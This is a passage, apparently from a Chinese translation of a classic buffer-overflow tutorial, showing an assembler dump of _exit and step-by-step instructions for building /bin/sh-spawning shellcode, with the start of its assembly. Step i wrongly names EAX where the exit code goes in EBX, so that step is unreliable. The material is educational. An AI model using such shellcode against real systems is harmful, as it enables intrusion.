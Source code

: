 0x8000355 &lt;_exit+9&gt;:&nbsp; &nbsp; movl&nbsp; &nbsp;0x8(%ebp),%ebx

0x8000358 &lt;_exit+12&gt;:&nbsp; &nbsp;int&nbsp; &nbsp; $0x80

0x800035a &lt;_exit+14&gt;:&nbsp; &nbsp;movl&nbsp; &nbsp;0xfffffffc(%ebp),%ebx

0x800035d &lt;_exit+17&gt;:&nbsp; &nbsp;movl&nbsp; &nbsp;%ebp,%esp

0x800035f &lt;_exit+19&gt;:&nbsp; &nbsp;popl&nbsp; &nbsp;%ebp

0x8000360 &lt;_exit+20&gt;:&nbsp; &nbsp;ret

0x8000361 &lt;_exit+21&gt;:&nbsp; &nbsp;nop

0x8000362 &lt;_exit+22&gt;:&nbsp; &nbsp;nop

0x8000363 &lt;_exit+23&gt;:&nbsp; &nbsp;nop

End of assembler dump.

------------------------------------------------------------------------------

&nbsp; &nbsp; 系统调用exit会把0x1放到寄存器EAX中, 在EBX中放置退出码, 并且执行"int 0x80".

就这些了! 大多数应用程序在退出时返回0, 以表示没有错误. 我们在EBX中也放入0. 现

在我们构造shell code的步骤就是这样的了:

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;a) 把以NULL结尾的字串"/bin/sh"放到内存某处.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;b) 把字串"/bin/sh"的地址放到内存某处, 后面跟一个空的长字(null long word)

.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;c) 把0xb放到寄存器EAX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;d) 把字串"/bin/sh"的地址放到寄存器EBX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;e) 把字串"/bin/sh"地址的地址放到寄存器ECX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;(注: 原文d和e步骤把EBX和ECX弄反了)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;f) 把空长字的地址放到寄存器EDX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;g) 执行指令int $0x80.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;h) 把0x1放到寄存器EAX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;i) 把0x0放到寄存器EAX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;j) 执行指令int $0x80.&nbsp;&nbsp;

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;

&nbsp; &nbsp; 试着把这些步骤变成汇编语言, 把字串放到代码后面. 别忘了在数组后面放上字串

 地址和空字, 我们有如下的代码:

------------------------------------------------------------------------------

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;string_addr,string_addr_addr

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0x0,null_byte_addr

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0,null_addr
